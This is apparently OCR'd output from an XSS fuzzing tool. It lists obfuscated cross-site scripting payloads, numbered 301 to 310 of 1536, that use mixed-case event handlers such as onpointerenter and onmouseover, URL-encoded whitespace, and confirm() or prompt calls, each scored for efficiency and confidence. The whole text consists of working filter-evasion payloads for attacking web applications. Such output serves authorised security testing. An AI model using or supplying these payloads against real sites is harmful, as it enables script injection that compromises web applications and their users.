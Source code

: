 ------------------------------------------------------------
 Payload: <D3V%0dONpOiNtereNTER%0a=%0aconfirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 301/1536
 
------------------------------------------------------------
 Payload: <html%09onPOintEReNTEr%0d=%0d(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 302/1536
 
------------------------------------------------------------
 Payload: <d3V/+/OnMouSEOVer+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 303/1536
 
------------------------------------------------------------
 Payload: <d3V%0aoNPointERenTer%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 304/1536
 
------------------------------------------------------------
 Payload: <hTML%0dONMoUseovEr%0d=%0da=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 305/1536
 
 Progress: 306/1536
 
------------------------------------------------------------
 Payload: <d3v%0aONmOuseOvEr+=+(confirm)()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 307/1536
 
------------------------------------------------------------
 Payload: <D3V/+/OnpoINtERentEr%09=%09[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 308/1536
 
------------------------------------------------------------
 Payload: <hTMl%0donmOUsEOVEr%0a=%0aa=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 309/1536
 
------------------------------------------------------------
 Payload: <A%0aOnMoUSeover%0d=%0da=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 310/1536
 